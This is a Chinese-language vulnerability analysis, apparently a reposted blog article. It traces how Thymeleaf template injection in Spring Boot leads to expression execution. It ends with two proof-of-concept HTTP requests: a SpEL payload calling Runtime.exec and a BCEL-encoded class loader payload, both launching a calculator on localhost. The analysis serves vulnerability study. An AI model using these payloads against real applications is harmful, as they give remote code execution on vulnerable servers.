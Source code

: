 > 原文链接: https://www.anquanke.com//post/id/250686 


# spring-boot-thymeleaf-ssti


                                阅读量   
                                **28274**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t01029d3f460756f020.png)](https://p3.ssl.qhimg.com/t01029d3f460756f020.png)



spring-boot下的thymeleaf模板注入挺有趣的，本文尝试对该漏洞一探究竟，如有谬误，还请同学们指教。

`https://github.com/veracode-research/spring-view-manipulation`

本文使用该项目给出的demo进行调试分析，其中，`spring-boot`版本为`2.2.0.RELEASE`，



## 启动

### <a class="reference-link" name="%E8%87%AA%E5%8A%A8%E8%A3%85%E9%85%8D"></a>自动装配

首先，我们知道，在配置好spring-boot情况下，加入如下thymeleaf的mvn依赖，就可以实现thymeleaf的自动配置。

```
&lt;dependency&gt;
            &lt;groupId&gt;org.springframework.boot&lt;/groupId&gt;
            &lt;artifactId&gt;spring-boot-starter-thymeleaf&lt;/artifactId&gt;
 &lt;/dependency&gt;
```

`thtmyleaf`的自动配置类为`org.springframework.boot.autoconfigure.thymeleaf.ThymeleafAutoConfiguration`

[![](https://p0.ssl.qhimg.com/t01012baca98cccea65.png)](https://p0.ssl.qhimg.com/t01012baca98cccea65.png)

### <a class="reference-link" name="%E6%8E%92%E5%BA%8FviewResolvers"></a>排序viewResolvers

我们可以看到，在`o.s.w.s.v.ContentNegotiatingViewResolver#initServletContext`方法中，对`viewResolvers`进行初始化，初始化后包含了多个视图解析器（模板引擎），包括 `BeanNameViewResolver`、`ViewResolverComposite`、`InternalResourceViewResolver`、`ThymeleafViewResolver`。

[![](https://p0.ssl.qhimg.com/t017d89b14671ed5156.png)](https://p0.ssl.qhimg.com/t017d89b14671ed5156.png)

查看`ThymeleafViewResolver`源码，发现其`order`值为`Integer.MAX_VALUE`，通过`sort`方法排序过后的结果如下图所示（`BeanNameViewResolver`也是Integer.MAX_VALUE）：

[![](https://p3.ssl.qhimg.com/t01c49f4af6c22c44c8.png)](https://p3.ssl.qhimg.com/t01c49f4af6c22c44c8.png)

具体代码流可以参考这里的堆栈信息：

```
getOrder:282, ThymeleafViewResolver (org.thymeleaf.spring5.view)
...
initServletContext:206, ContentNegotiatingViewResolver (org.springframework.web.servlet.view)
...
refresh:550, AbstractApplicationContext (org.springframework.context.support)
...
refreshContext:397, SpringApplication (org.springframework.boot)
run:315, SpringApplication (org.springframework.boot)
...
```



## 视图解析

### <a class="reference-link" name="%E8%8E%B7%E5%BE%97%E8%A7%86%E5%9B%BE%E8%A7%A3%E6%9E%90%E5%99%A8"></a>获得视图解析器

`org.springframework.web.servlet.DispatcherServlet#render`：用户发起的请求触发的代码会走到这里获取视图解析器，随后从`resolveViewName`获得最匹配的视图解析器。

[![](https://p5.ssl.qhimg.com/t01010bec14d3cb2f13.png)](https://p5.ssl.qhimg.com/t01010bec14d3cb2f13.png)

`org.springframework.web.servlet.view.ContentNegotiatingViewResolver#resolveViewName`：在该方法中，先是通过`getCandidateViews`筛选出`resolveViewName`方法返回值不为null（即有效的）的视图解析器；之后通过`getBestView`方法选取“最优”的解，`getBestView`中的逻辑简而概之，优先返回重定向的视图动作，然后就是根据用户HTTP请求的`Accept:`头部字段与`candidateViews`数组中视图解析器的排序获得最优解的视图解析器，而前面所讲到的`viewResolvers`的排序正是参与决定了这一排序决策。

[![](https://p3.ssl.qhimg.com/t012baef430b591ea17.png)](https://p3.ssl.qhimg.com/t012baef430b591ea17.png)

```
resolveViewName:227, ContentNegotiatingViewResolver (org.springframework.web.servlet.view)
resolveViewName:1414, DispatcherServlet (org.springframework.web.servlet)
render:1350, DispatcherServlet (org.springframework.web.servlet)
processDispatchResult:1118, DispatcherServlet (org.springframework.web.servlet)
doDispatch:1057, DispatcherServlet (org.springframework.web.servlet)
...
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
...
```

### <a class="reference-link" name="%E8%8E%B7%E5%BE%97%E8%A7%86%E5%9B%BE%E8%A7%A3%E6%9E%90%E5%99%A8%E5%90%8D%E7%A7%B0"></a>获得视图解析器名称

`org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter#invokeHandlerMethod`：该方法为获取视图名称的关键点，其中首先会调用`invokeAndHandle`（下面会讲该方法内的逻辑），之后返回`getModelAnView`方法执行结果的返回值。

[![](https://p3.ssl.qhimg.com/t01c02ed171052ba1a1.png)](https://p3.ssl.qhimg.com/t01c02ed171052ba1a1.png)

`o.s.w.s.m.m.a.ServletInvocableHandlerMethod#invokeAndHandle`:在该方法中，会尝试获取前端控制器的return返回值，也就是说，如果前端Controller返回值中直接拼接了用户的输入，相当于控制了该视图名称；另外，当用户自定义的Controller方法的入参中添加了`ServletResponse`，这里的`invokeForRequest`中会触发`ServletResponseMethodArgumentResolver#resolveArgument`将`mavContainer`的`requestHandled`设置为`true`，而`mavContainer.isRequestHandled()`为`true`导致了`getModelAndview（...）`返回值为null，也就不会有后面的漏洞触发流程。

[![](https://p2.ssl.qhimg.com/t0116ed8b3b25c0cfbf.png)](https://p2.ssl.qhimg.com/t0116ed8b3b25c0cfbf.png)

`org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter#getModelAndView`：如果`mavContainer.isRequestHandled()`为`true`，直接返回null。

[![](https://p4.ssl.qhimg.com/t01636935a69545e80d.png)](https://p4.ssl.qhimg.com/t01636935a69545e80d.png)

`org.springframework.web.servlet.DispatcherServlet#applyDefaultViewName`：另外，如果前端Controller的方法返回值为null，即void方法类型，前面的流程无法拿到视图名称，后面会调用`applyDefaultViewName`方法将URI路径作为视图名称。

`org.springframework.web.servlet.view.DefaultRequestToViewNameTranslator#transformPath`：在将URI设置为视图名称的代码流程中，调用了该方法对URI进行格式调整，其中包括去除URI扩展名称。

[![](https://p2.ssl.qhimg.com/t01ba77ab56c2b0a517.png)](https://p2.ssl.qhimg.com/t01ba77ab56c2b0a517.png)

```
...
getViewName:172, DefaultRequestToViewNameTranslator (org.springframework.web.servlet.view)
getDefaultViewName:1391, DispatcherServlet (org.springframework.web.servlet)
applyDefaultViewName:1087, DispatcherServlet (org.springframework.web.servlet)
doDispatch:1046, DispatcherServlet (org.springframework.web.servlet)
。。。
```

### <a class="reference-link" name="%E4%BD%BF%E7%94%A8%E8%A7%86%E5%9B%BE%E8%A7%A3%E6%9E%90%E5%99%A8"></a>使用视图解析器

`org.thymeleaf.spring5.view.ThymeleafView#renderFragment`：这里是漏洞触发的关键逻辑点之一，如果用户的输入拼接到了视图名称中，即控制了`viewTemplateName`变量。通过浏览代码，我们可以了解到，首先视图模板名称中需要包含`::`字符串，否则不会走入表达式执行代码中。

[![](https://p3.ssl.qhimg.com/t016cea905e19b15fed.png)](https://p3.ssl.qhimg.com/t016cea905e19b15fed.png)

上图的`o.t.s.e.StandardExpressionParser#parseExpression`不重要，我们这里略过，其随后会走到`org.thymeleaf.standard.expression.StandardExpressionPreprocessor#preprocess`方法：这里的`input`变量就是上面`viewTemplateName`前后分别拼接了`~`{``、``}``后的字符串，随后这里使用`PREPROCESS_EVAL_PATTERN`正则对`input`进行匹配，正则内容为`\_\_(.*?)\_\_` ，随后获取正则命中后的元组内容，即非贪婪匹配的`.*?`，随后讲该元组内容传入`parseExpression`方法并在这里触发了EL表达式代码执行。

[![](https://p5.ssl.qhimg.com/t0199be8ff38a35d9f8.png)](https://p5.ssl.qhimg.com/t0199be8ff38a35d9f8.png)



## POC构造

由触发的代码流程梳理可以得出触发表达式的条件：

①用户传入的字符串拼接到了Controller方法的返回值中且返回的视图非重定向（前面流程可用知晓，重定向优先级最高），或URI路径拼接了用户的输入且Controller方法参数中不带有`ServletResponse`类型的参数；

②视图引擎名称中需要包含`::`字符串；

③被执行表达式字符串前后需要带有两个下划线，即`__$`{`EL`}`__`；

④如果Payload在URI中，由于URI格式化的原因且我们的Payload中带有`.`符号，所以需要在URI末尾添加`.`。

于是，我们可以构造出与作者有所差异的POC

```
POST /path HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

lang=::__$`{`new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()`}`_______________

```

如果我们要利用该漏洞干点啥，建议还是结合BCEL一类的方式来利用更加方便（不过JDK251后BCEL使用不了），win弹计算器：

```
POST /path HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 1010

lang=::__$`{`"".getClass().forName("$$BCEL$$$l$8b$I$A$A$A$A$A$A$AePMO$c2$40$U$9c$85B$a1$W$84$e2$f7$b7$t$c1$83$3dx$c4x1z$b1$w$R$83$e7$ed$b2$c1$c5$d2$92R$8c$fe$o$cf$5e$d4x$f0$H$f8$a3$8c$af$x$R$a3$7bx$_o$e6$cdL$de$7e$7c$be$bd$D$d8$c7$b6$F$Ts$W$e6$b1P$c0b$da$97L$y$9bX1$b1$ca$90$3fP$a1J$O$Z$b2$f5F$87$c18$8a$ba$92a$d6S$a1$3c$l$P$7c$Z_q$3f$m$c4$f1$o$c1$83$O$8fU$3aO$40$p$b9Q$a3$94$T$d1$c0$f5$a5$I$dc$W$7f$I$o$dem2$U$OD0$b1$$$b5$T$$n$cf$f8P$cb$u$9c$c1jG$e3X$c8$T$95$da$d8$T$d5$5e$9f$dfq$h$F$UM$ac$d9X$c7$GEP$aa$b0$b1$89$z$86Z$ca$bb$B$P$7b$ee$f1$bd$90$c3DE$nC$e5o8A$d3$c5$L$bf$_E$c2P$9dB$97$e30Q$D$ca$b5z2$f9$Z$e6$eb$N$ef$df$O$dda$c8$7b$v$Yv$ea$bf$d8v$S$ab$b0$d7$fc$zh$c5$91$90$a3Q$T$db$c8$d3$7f$a7$_$D$96$deB$d5$a2$c9$a5$ce$a8$e7v_$c0$9e4$3dC5$af$c1$Ml$aa$f6$f7$CJ$uS$_$60$f6G$7c$a1$cd$80$f2$x2N$f6$Z$c6$f5$p$8c$d3$t$8d$VI$97CV$bb90$a8$9a$84YH$3f$b2D$a8$ad$fd$81$8af2$9e$89$wH$e8h$b8$f6$Fz7$85$d0$t$C$A$A", true, "".getClass().forName("com.sun.org.apache.bcel.internal.util.ClassLoader").newInstance())`}`_______________

```



## 结语

spring-boot的自动化配置为开发部署带来了极大的便捷，这也对我们深入底层问题提搞了学习成本。该模板注入问题十分巧妙，起初让人感到不可思议。
